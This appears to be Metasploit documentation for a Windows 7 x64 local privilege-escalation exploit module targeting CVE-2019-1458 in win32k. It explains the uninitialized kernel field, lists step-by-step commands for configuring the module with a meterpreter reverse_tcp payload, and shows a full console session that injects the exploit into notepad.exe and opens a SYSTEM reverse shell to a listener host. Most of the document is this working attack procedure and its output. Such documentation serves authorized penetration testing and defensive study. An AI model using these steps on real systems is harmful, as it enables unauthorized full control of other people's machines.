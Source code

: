 ## Vulnerable Application

This module exploits CVE-2019-1458, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/ntusermessagecall`
1. `set session <session>`
1. `set payload windows/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.17514

```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-09 15:18:22 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > privs
[-] Unknown command: privs.
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/nt
use exploit/windows/local/ntapphelpcachecontrol  use exploit/windows/local/ntusermndragover
use exploit/windows/local/ntusermessagecall
msf6 exploit(multi/handler) > use exploit/windows/local/ntusermessagecall
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/ntusermessagecall) > show options

Module options (exploit/windows/local/ntusermessagecall):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS  notepad.exe      yes       Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.24.12.125    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x64


msf6 exploit(windows/local/ntusermessagecall) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ntusermessagecall) > set LPORT 6633
LPORT => 6633
msf6 exploit(windows/local/ntusermessagecall) > exploit

[*] Started reverse TCP handler on 172.24.12.125:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 2816 launched.
[*] Injecting exploit into 2816 ...
[*] Exploit injected. Injecting payload into 2816...
[*] Payload injected. Executing exploit...
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 2 opened (172.24.12.125:6633 -> 172.24.15.185:49223) at 2020-10-09 15:19:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/ntusermessagecall) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  test-PC\test @ TEST-PC         0.0.0.0:0 -> 172.24.15.185:4444 (172.24.15.185)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST-PC  172.24.12.125:6633 -> 172.24.15.185:49223 (172.24.15.185)

msf6 exploit(windows/local/ntusermessagecall) >
```

